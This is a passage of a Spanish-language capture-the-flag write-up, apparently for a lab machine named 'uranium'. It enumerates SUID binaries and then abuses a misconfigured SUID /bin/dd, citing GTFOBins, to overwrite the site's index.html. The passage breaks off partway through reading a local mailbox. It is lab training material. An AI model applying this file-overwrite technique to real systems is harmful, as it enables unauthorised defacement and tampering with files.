 Después de eso busqué los binarios `SUID`, y encontré uno muy interesante ...

```bash
-perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 113528 Feb  2  2021 /usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 149080 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 26696 Sep 16  2020 /bin/umount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 43088 Sep 16  2020 /bin/mount
-rwsr-x--- 1 web kral4 76000 Apr 23 10:52 /bin/dd
```
`dd` Se usa para escribir datos en archivos, entoncesss...

Podemos usarlo para modificar la index de la web. Aquí está el link a [GTFOBins para explotarlo](https://gtfobins.github.io/gtfobins/dd/).

```bash
kral4@uranium:/home/kral4$ LFILE=/var/www/html/index.html 
kral4@uranium:/home/kral4$ echo "Dumped by lanfran02" | /bin/dd of=$LFILE
0+1 records in
0+1 records out
20 bytes copied, 0.000148921 s, 134 kB/s
kral4@uranium:/home/kral4$ cat /var/mail/kral4                           
From root@uranium.thm  Sat Apr 24 13:22:02 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
	by uranium (Postfix) with ESMTP id C7533401C2
	for <kral4@uranium.thm>; Sat, 24 Apr 2021 13:22:02 +0000 (UTC)
Message-ID: <841530.943147035-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 24 Apr 2021 13:22:02 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-992935.514616878"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-992935.514616878
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

```